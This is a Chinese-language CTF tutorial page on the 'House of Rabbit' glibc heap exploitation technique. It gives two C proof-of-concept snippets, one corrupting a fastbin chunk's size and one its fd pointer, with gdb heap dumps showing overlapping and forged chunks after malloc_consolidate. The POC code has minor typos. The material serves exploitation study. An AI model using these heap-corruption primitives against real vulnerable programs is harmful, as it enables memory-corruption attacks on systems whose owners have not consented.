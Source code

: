 [EN](./house_of_rabbit.md) | [ZH](./house_of_rabbit-zh.md)
# House of Rabbit

## 介绍
House of rabbit是一种伪造堆块的技术，早在2017年已经提出，但在最近两个月才在CTF比赛中出现。我们一般运用在fastbin attack中，因为unsorted bin等其它的bin有更好的利用手段。

## 原理
我们知道，fastbin中会把相同的size的被释放的堆块用一个单向链表管理，分配的时候会检查size是否合理，如果不合理程序就会异常退出。而house of rabbit就利用了在malloc consolidate的时候fastbin中的堆块进行合并时size没有进行检查从而伪造一个假的堆块，为进一步的利用做准备。

由于原作者的[POC](https://github.com/shift-crops/House_of_Rabbit)需要的条件较多，这里我直接介绍这个攻击的本质即可。

`前提条件`:
1. 可以修改fastbin的fd指针或size
2. 可以触发malloc consolidate(merge top或malloc big chunk等等)


下面来看一下POC
`POC 1`: modify the size of fastbin chunk
```cpp
unsigned long* chunk1=malloc(0x40); //0x602000
unsigned long* chunk2=malloc(0x40); //0x602050
malloc(0x10);
free(chunk1);
free(chunk2);
/* Heap layout
0000| 0x602000 --> 0x0 
0008| 0x602008 --> 0x51 ('Q')
0016| 0x602010 --> 0x0 
..... 
0080| 0x602050 --> 0x0 
0088| 0x602058 --> 0x51 ('Q')
0096| 0x602060 --> 0x602000 --> 0x0 
0104| 0x602068 --> 0x0 
...... 
0160| 0x6020a0 --> 0x0 
0168| 0x6020a8 --> 0x21 ('!')
0176| 0x6020b0 --> 0x0 
0184| 0x6020b8 --> 0x0 
*/
chunk1[-1]=0xa1; //modify chunk1 size to be 0xa1
malloc(0x1000);  //allocate a large chunk, trigger malloc consolidate
/*Chunk1 overlap with chunk2 now
gdb-peda$ telescope 0x602000 100
0000| 0x602000 --> 0x0 
0008| 0x602008 --> 0xa1 
0016| 0x602010 --> 0x7ffff7dd1c08 --> 0x7ffff7dd1bf8 --> 0x7ffff7dd1be8 --> 0x7ffff7dd1bd8 --> 0x7ffff7dd1bc8 (--> ...)
0024| 0x602018 --> 0x7ffff7dd1c08 --> 0x7ffff7dd1bf8 --> 0x7ffff7dd1be8 --> 0x7ffff7dd1bd8 --> 0x7ffff7dd1bc8 (--> ...)
0032| 0x602020 --> 0x0 
.....
0080| 0x602050 --> 0x0 
0088| 0x602058 --> 0x51 ('Q')
0096| 0x602060 --> 0x7ffff7dd1bb8 --> 0x7ffff7dd1ba8 --> 0x7ffff7dd1b98 --> 0x7ffff7dd1b88 --> 0x7ffff7dd1b78 (--> ...)
0104| 0x602068 --> 0x7ffff7dd1bb8 --> 0x7ffff7dd1ba8 --> 0x7ffff7dd1b98 --> 0x7ffff7dd1b88 --> 0x7ffff7dd1b78 (--> ...)
0112| 0x602070 --> 0x0 
0120| 0x602078 --> 0x0 
....
0152| 0x602098 --> 0x0 
0160| 0x6020a0 --> 0xa0 
0168| 0x6020a8 --> 0x20 (' ')

gdb-peda$ heapinfo
(0x20)     fastbin[0]: 0x0
(0x30)     fastbin[1]: 0x0
(0x40)     fastbin[2]: 0x0
(0x50)     fastbin[3]: 0x0
(0x60)     fastbin[4]: 0x0
(0x70)     fastbin[5]: 0x0
(0x80)     fastbin[6]: 0x0
                  top: 0x603450 (size : 0x1fbb0) 
       last_remainder: 0x0 (size : 0x0) 
            unsortbin: 0x0
(0x050)  smallbin[ 3]: 0x602050
(0x0a0)  smallbin[ 8]: 0x602000 (overlap chunk with 0x602050(freed) )
*/
```
`POC 2`:modify FD pointer
```cpp
unsigned long* chunk1=malloc(0x40); //0x602000
unsigned long* chunk2=malloc(0x100);//0x602050

chunk2[1]=0x31; //fake chunk size 0x30
chunk2[7]=0x21  //fake chunk's next chunk
chunk2[11]=0x21 //fake chunk's next chunk's next chuck
/* Heap laylout
0000| 0x602000 --> 0x0 
0008| 0x602008 --> 0x51 ('Q')
0016| 0x602010 --> 0x0 
......
0080| 0x602050 --> 0x0 
0088| 0x602058 --> 0x111 
0096| 0x602060 --> 0x0 
0104| 0x602068 --> 0x31 ('1')
0112| 0x602070 --> 0x0 
......
0144| 0x602090 --> 0x0 
0152| 0x602098 --> 0x21 ('!')
0160| 0x6020a0 --> 0x0 
0168| 0x6020a8 --> 0x0 
0176| 0x6020b0 --> 0x0 
0184| 0x6020b8 --> 0x21 ('!')
0192| 0x6020c0 --> 0x0 
......
0352| 0x602160 --> 0x0 
0360| 0x602168 --> 0x20ea1
*/
free(chunk1);
chuck1[0]=0x602060;// modify the fd of chunk1
/*
gdb-peda$ heapinfo
(0x20)     fastbin[0]: 0x0
(0x30)     fastbin[1]: 0x0
(0x40)     fastbin[2]: 0x0
(0x50)     fastbin[3]: 0x602000 --> 0x602060 (size error (0x30)) --> 0x0
*/
malloc(5000);// malloc a  big chunk to trigger malloc consolidate
/*
gdb-peda$ heapinfo
(0x20)     fastbin[0]: 0x0
(0x30)     fastbin[1]: 0x0
(0x40)     fastbin[2]: 0x0
(0x50)     fastbin[3]: 0x0
(0x60)     fastbin[4]: 0x0
(0x70)     fastbin[5]: 0x0
(0x80)     fastbin[6]: 0x0
                  top: 0x6034f0 (size : 0x1fb10) 
       last_remainder: 0x0 (size : 0x0) 
            unsortbin: 0x0
(0x050)  smallbin[ 3]: 0x602000
(0x030)  smallbin[ 1]: 0x602060
*/
```

原理很简单，就是通过修改fastbin chunk的size(如上面的POC 1所示)直接构造overlap chunk，或者修改fd(如面的POC 2所示)，让它指向一个fake chunk，触发malloc consolidate之后让这个fake chunk成为一个合法的chunk。

## 总结
House of rabbit的优点是容易构造overlap chunk，由于可以基于fastbin attack，甚至不需要leak就可以完成攻击。大家可以通过例题的练习加深对这个攻击的理解。

## 例题
1. HITB-GSEC-XCTF 2018 mutepig
2. 待补充








